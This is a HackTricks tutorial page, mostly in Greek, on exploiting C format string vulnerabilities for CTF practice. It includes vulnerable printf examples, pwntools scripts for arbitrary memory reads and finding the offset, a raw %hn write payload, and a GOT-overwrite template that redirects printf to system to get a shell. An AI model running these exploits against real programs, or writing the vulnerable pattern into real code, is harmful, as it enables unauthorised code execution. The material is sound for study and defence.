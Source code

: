# Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_απαιτείται άριστη γνώση πολωνικών, γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

In C **`printf`** είναι μια συνάρτηση που μπορεί να χρησιμοποιηθεί για να **εκτυπώσει** κάποιο κείμενο. Η **πρώτη παράμετρος** που περιμένει αυτή η συνάρτηση είναι το **ακατέργαστο κείμενο με τους μορφοποιητές**. Οι **επόμενες παράμετροι** που αναμένονται είναι οι **τιμές** για να **αντικαταστήσουν** τους **μορφοποιητές** από το ακατέργαστο κείμενο.

Άλλες ευάλωτες συναρτήσεις είναι οι **`sprintf()`** και **`fprintf()`**.

Η ευπάθεια εμφανίζεται όταν ένα **κείμενο επιτιθέμενου χρησιμοποιείται ως η πρώτη παράμετρος** σε αυτή τη συνάρτηση. Ο επιτιθέμενος θα είναι σε θέση να δημιουργήσει μια **ειδική είσοδο εκμεταλλευόμενος** τις δυνατότητες της **μορφής printf** για να διαβάσει και να **γράψει οποιαδήποτε δεδομένα σε οποιαδήποτε διεύθυνση (αναγνώσιμη/γραπτή)**. Έχοντας έτσι τη δυνατότητα να **εκτελέσει αυθαίρετο κώδικα**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Παραδείγματα:**

* Ευάλωτο παράδειγμα:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Κανονική Χρήση:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Με Ελλείποντες Παραμέτρους:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf ευάλωτο:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Πρόσβαση σε Δείκτες**

Η μορφή **`%<n>$x`**, όπου `n` είναι ένας αριθμός, επιτρέπει να υποδείξετε στο printf να επιλέξει την n παράμετρο (από τη στοίβα). Έτσι, αν θέλετε να διαβάσετε την 4η παράμετρο από τη στοίβα χρησιμοποιώντας το printf, μπορείτε να κάνετε:
```c
printf("%x %x %x %x")
```
και θα διάβαζες από την πρώτη έως την τέταρτη παράμετρο.

Ή θα μπορούσες να κάνεις:
```c
printf("%4$x")
```
και να διαβάσει απευθείας το τέταρτο.

Σημειώστε ότι ο επιτιθέμενος ελέγχει την παράμετρο `printf`, **που σημαίνει βασικά ότι** η είσοδός του θα είναι στη στοίβα όταν καλείται το `printf`, που σημαίνει ότι θα μπορούσε να γράψει συγκεκριμένες διευθύνσεις μνήμης στη στοίβα.

{% hint style="danger" %}
Ένας επιτιθέμενος που ελέγχει αυτή την είσοδο, θα είναι σε θέση να **προσθέσει αυθαίρετη διεύθυνση στη στοίβα και να κάνει το `printf` να τις προσπελάσει**. Στην επόμενη ενότητα θα εξηγηθεί πώς να χρησιμοποιηθεί αυτή η συμπεριφορά.
{% endhint %}

## **Αυθαίρετη Ανάγνωση**

Είναι δυνατόν να χρησιμοποιηθεί ο μορφοποιητής **`%n$s`** για να κάνει το **`printf`** να αποκτήσει τη **διεύθυνση** που βρίσκεται στη **n θέση**, ακολουθώντας την και **να την εκτυπώσει σαν να ήταν μια συμβολοσειρά** (εκτύπωση μέχρι να βρεθεί ένα 0x00). Έτσι, αν η βασική διεύθυνση του δυαδικού είναι **`0x8048000`**, και γνωρίζουμε ότι η είσοδος του χρήστη ξεκινά στη 4η θέση στη στοίβα, είναι δυνατόν να εκτυπωθεί η αρχή του δυαδικού με:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Σημειώστε ότι δεν μπορείτε να βάλετε τη διεύθυνση 0x8048000 στην αρχή της εισόδου γιατί η συμβολοσειρά θα κοπεί στο 0x00 στο τέλος αυτής της διεύθυνσης.
{% endhint %}

### Βρείτε την απόσταση

Για να βρείτε την απόσταση στην είσοδό σας, μπορείτε να στείλετε 4 ή 8 bytes (`0x41414141`) ακολουθούμενα από **`%1$x`** και **να αυξήσετε** την τιμή μέχρι να ανακτήσετε τα `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Πόσο χρήσιμο

Οι αυθαίρετες αναγνώσεις μπορούν να είναι χρήσιμες για:

* **Dump** το **binary** από τη μνήμη
* **Πρόσβαση σε συγκεκριμένα μέρη της μνήμης όπου αποθηκεύεται ευαίσθητη** **πληροφορία** (όπως canaries, κλειδιά κρυπτογράφησης ή προσαρμοσμένους κωδικούς όπως σε αυτήν την [**CTF πρόκληση**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Αυθαίρετη Εγγραφή**

Ο μορφοποιητής **`%<num>$n`** **γράφει** τον **αριθμό των γραμμένων byte** στη **δεικνυόμενη διεύθυνση** στην παράμετρο \<num> στο stack. Εάν ένας επιτιθέμενος μπορεί να γράψει τόσους χαρακτήρες όσους θέλει με το printf, θα είναι σε θέση να κάνει το **`%<num>$n`** να γράψει έναν αυθαίρετο αριθμό σε μια αυθαίρετη διεύθυνση.

Ευτυχώς, για να γράψει τον αριθμό 9999, δεν χρειάζεται να προσθέσει 9999 "A"s στην είσοδο, για να το κάνει αυτό είναι δυνατό να χρησιμοποιήσει τον μορφοποιητή **`%.<num-write>%<num>$n`** για να γράψει τον αριθμό **`<num-write>`** στη **διεύθυνση που υποδεικνύεται από τη θέση `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ωστόσο, σημειώστε ότι συνήθως για να γράψετε μια διεύθυνση όπως το `0x08049724` (η οποία είναι ένας ΜΕΓΑΛΟΣ αριθμός για να γραφτεί ταυτόχρονα), **χρησιμοποιείται το `$hn`** αντί για το `$n`. Αυτό επιτρέπει να **γραφούν μόνο 2 Bytes**. Επομένως, αυτή η λειτουργία εκτελείται δύο φορές, μία για τα υψηλότερα 2B της διεύθυνσης και άλλη μία για τα χαμηλότερα.

Επομένως, αυτή η ευπάθεια επιτρέπει να **γραφεί οτιδήποτε σε οποιαδήποτε διεύθυνση (arbitrary write).**

Σε αυτό το παράδειγμα, ο στόχος είναι να **επικαλυφθεί** η **διεύθυνση** μιας **λειτουργίας** στον πίνακα **GOT** που θα κληθεί αργότερα. Αν και αυτό θα μπορούσε να εκμεταλλευτεί άλλες τεχνικές arbitrary write για exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Θα **επικαλυφθεί** μια **λειτουργία** που **λαμβάνει** τα **ορίσματά** της από τον **χρήστη** και θα **δείξει** τη **λειτουργία `system`**.\
Όπως αναφέρθηκε, για να γραφεί η διεύθυνση, συνήθως απαιτούνται 2 βήματα: Πρώτα **γράφονται 2Bytes** της διεύθυνσης και στη συνέχεια τα άλλα 2. Για να το κάνετε αυτό, χρησιμοποιείται το **`$hn`**.

* **HOB** καλείται για τα 2 υψηλότερα bytes της διεύθυνσης
* **LOB** καλείται για τα 2 χαμηλότερα bytes της διεύθυνσης

Στη συνέχεια, λόγω του πώς λειτουργεί η μορφή της συμβολοσειράς, πρέπει να **γραφεί πρώτα το μικρότερο** από \[HOB, LOB] και στη συνέχεια το άλλο.

Αν HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Αν HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

Μπορείτε να βρείτε ένα **πρότυπο** για να προετοιμάσετε μια εκμετάλλευση για αυτόν τον τύπο ευπάθειας στο:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ή αυτό το βασικό παράδειγμα από [**εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Είναι δυνατόν να καταχραστούμε τις ενέργειες εγγραφής μιας ευπάθειας μορφής συμβολοσειράς για να **γράψουμε σε διευθύνσεις της στοίβας** και να εκμεταλλευτούμε μια ευπάθεια τύπου **buffer overflow**.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, βασική χρήση μορφών συμβολοσειρών για να διαρρεύσει η σημαία από τη στοίβα (δεν χρειάζεται να αλλάξει η ροή εκτέλεσης)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, μορφή συμβολοσειράς για να αντικαταστήσει τη διεύθυνση `fflush` με τη συνάρτηση win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, μορφή συμβολοσειράς για να γράψει μια διεύθυνση μέσα στο main στο `.fini_array` (έτσι ώστε η ροή να επαναληφθεί 1 φορά ακόμα) και να γράψει τη διεύθυνση στο `system` στον πίνακα GOT που δείχνει στο `strlen`. Όταν η ροή επιστρέψει στο main, η `strlen` εκτελείται με είσοδο χρήστη και δείχνει στο `system`, θα εκτελέσει τις εντολές που έχουν περαστεί.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το μη χακάρισμα - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραπτή και προφορική πολωνική_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
{% endhint %}
